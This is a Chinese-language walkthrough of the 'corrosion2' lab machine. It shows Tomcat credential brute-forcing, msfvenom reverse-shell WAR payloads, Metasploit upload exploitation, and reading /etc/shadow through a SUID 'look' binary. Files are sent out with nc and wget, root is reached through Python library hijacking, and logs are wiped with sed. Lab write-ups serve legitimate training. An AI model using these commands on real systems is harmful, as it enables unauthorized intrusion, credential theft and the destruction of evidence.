# corrosion笔记

## 前言

靶机：`corrosion2`

攻击：`kali`


## 主机发现

使用`arp-scan -l`扫描


## 信息收集

使用`nmap`扫描目标

```shell
nmap -sV -O 192.168.1.31
```




- 22端口SSH服务
- 80端口http服务(`apache 2.4.41`)
- 8080端口http服务(`tomcat 9.0.53`)
- linux系统4.x|5.x

访问80端口和8080端口，都是服务的默认页面






访问8080端口的`host manager`出现403拒绝，但是报出一些信息，是一些示例




## 目录扫描

先对80端口进行目录扫描，看样子，没有东西，重点应该在8080端口




扫描8080端口的目录


目录其实也没有东西，重点看来确实在8080端口，应该是登录上面

使用`burp`抓取登录数据包，因为`kali`在虚拟机有点卡，所以这里在物理机上抓包

点击`manager app`模块，输入用户名`tomcat`和密码`tomcat`

抓取数据包可以看到，身份认证这里是采用编码进行统一在一起的




使用burp中的`decoder`模块进行解码，逐一分析可以看到用户名`tomcat`对应着`base64`编码中的一部分




`:tomcat`对应着后面一部分




知道构造后，进行爆破，当然需要设置一些参数，首先假设`tomcat`就是用户名，直接爆破其密码，因为一般默认用户名都是`tomcat`，只需要把`tomcat`这一部分的`base64`编码保持不动即可，重点爆破`:passwd`这里




然后选择针对密码的字典进行爆破

但是啊，这里换了几个字典，都没有问题，那么我就思考，应该还有什么隐藏信息吧，之前的目录扫描只是扫描一层目录，然后就不深究了，这里还是再深入扫描检测一下

使用`dirsearch`进行扫描测试，发现存在之前没有扫描到的目录，一个压缩包，一个`readme.txt`

当然这里也可以继续使用`gobuster`和`ffuf`，因为之前一直使用这两个，所以今天换一换，说不定能扫描出不一样的

而且`dirsearch`支持递归扫描，不需要一个一个的去扫，在`gobuster`中使用`-x`参数可以扫描扩展名的，与`ffuf`中的`-e`差不多




## 漏洞发现

访问`readme.txt`进行查看



说这是系统管理员，在服务器上有一个文件，并确定没人能找到，也让他记住管理员给的密码


这时再访问这个压缩包进行下载查看，结合来看，这很有可能有密码在里面



需要密码，和之前一样，可以使用`fcrackzip`破解或使用`jhon`套件先转换再破解



查看这些获取到的文件，在`tomcat-users.xml`中发现信息



使用账户密码进行登录，权限来说，`admin`更高，所以以这个身份登录

访问之后发现可以上传文件，不过文件的格式必须是`war`，而这个格式是`java`中的打包




## 漏洞利用

使用工具生成一个反向连接，所以这里要注意`payload`

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe


msfvenom -p java/jsp_shell_reverse_tcp  LHOST=192.168.1.16 LPORT=8888 -f war -o shell.war
```





按照上面的上传部署即可




**这里不知道出了什么问题，导致无法连接，但是上传都是成功的**，

**不过已经有了用户名和密码，管理界面也是可以访问，那么使用`msf`中的模块设置参数进行反弹**

**但是使用`msf`也是出错，所以这里重置靶场，后的IP地址会发生变化**


开启监听，然后点击部署的目录即可成功

```
nc -lvvp 8888
```

这里提示，所以换用`msf`




使用`msf`中的`tomcat_mgr_upload`模块并配置相关参数




直接`run`或`exploit`执行

成功，获取，使用`shell`命令获取一个终端




因为非交互式很不舒服，所以尝试寻找python版本，然后获取交互式




先去`/home`目录查看，发现两个用户，尝试进入其目录




在`randy`下，发现几个文件，一个个的查看




## 提权

##### 提权1，获取密码

在`note.txt`中有系统管理员的话，意思就是现在`randy`用户没有删除或添加文件的权限

那么这时候使用`find`查找SUID特权，发现有`sudo`但是执行时，输入的密码不正确，尝试切换其他用户，`su`也是`find`找到的，这里知道两个密码，对切换的用户来回测试



知道`jaye`的密码，使用`ssh`连接，然后使用`find`命令再次寻找

```shell
find / -perm -u=s -type f 2>/dev/null
```




切换目录查看




尝试查看内容，无权限



然后发现，这是一个命令，用法都有

简单介绍一个look命令，`look` 命令是一个用于在 Unix 和类 Unix 系统中查找单词的工具。它的主要功能是根据给定的前缀从字典文件中查找匹配的单词。


这里`sudo -l`，不允许使用，所以`find`找到的，能用的也只有这个，所以现在从linux中存储用户名和密码的地方入手

在网站`gtfobins`寻找用法



使用look，把`hash`复制，到本地使用`john`等破解



同样的方法，把`/etc/passwd`也复制到本地的文件中


或者使用

```shell
./look '' "/etc/passwd" > ../user.txt
./look '' "/etc/shadow" > ../shadow.txt
cd ..
python3 -m http.server 9999
wget 192.168.1.33:9999/user.txt
wget 192.168.1.33:9999/shadow.txt	
当然，前提是有wget，如没有，还可以使用nc
nc 192.168.1.16 9999 < user.txt	然后kali监听即可
```


##### 提权2，破解密码

然后使用`unshadow`将两个文件合并



使用`join`进行破解

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt userpass.txt
```


这里因为爆破时间太长了，所以就放着让他爆破，我去网上找别人破解过的


所以这里因为恢复快照并忘了截图，提供一个用户名和密码

用户名 `randy`   

密码   `07051986randy`

 

##### 提权3，python文件提权

破解完成，使用`randy`登录


有一个文件具有权限，去目录下查看，其他用户没有写权限



查看`python`文件后，发现导入了base64包，寻找这个包的位置`locate`

`python`中一般都是从`lib`库中调用




有写权限，那么尝试写入提权到`root`的`bash`命令，因为原本的`pythin`脚本所有者是`root`，当执行时，是以`root`身份执行

使用`vi`或者`nano`编辑器，因为`vim`没安装




使用`sudo python3.8`执行脚本




## 清除痕迹

##### 清空日志

一般是使用`sed -i "/192.168.1.16/d" auth.log`，不过这里因为又尝试了一些操作，导致太乱，所以这样清空




##### 清空历史命令



## 总结

1. 目录扫描一定要仔细，可能会错过重要信息
2. 对于压缩包的密码破解，使用`fcrackzip`或者`john`套件都可以
3. `tomcat`一般对于用户的相关信息可能放在`tomcat_user.xml`中
4. `tomcat`中密码多用的可能性还是有的
5. 善用`find / -perm -u=s -type f 2>/dev/null`发现特权的命令
6. `look`的一些特权用法可以在网址`gtfobins.github.io`去查看
7. 添加或者移动文件时，要注意文件夹是否有权限
8. `unshadow`的使用和`john`密码破解
9. 使用`sudo -l`寻找哪些文件可能有`root`权限
10. 对于`python`提权的方式有很多，这里是直接本地调用`bash`，还可以通过反弹获取终端，不过代码可能会麻烦一些


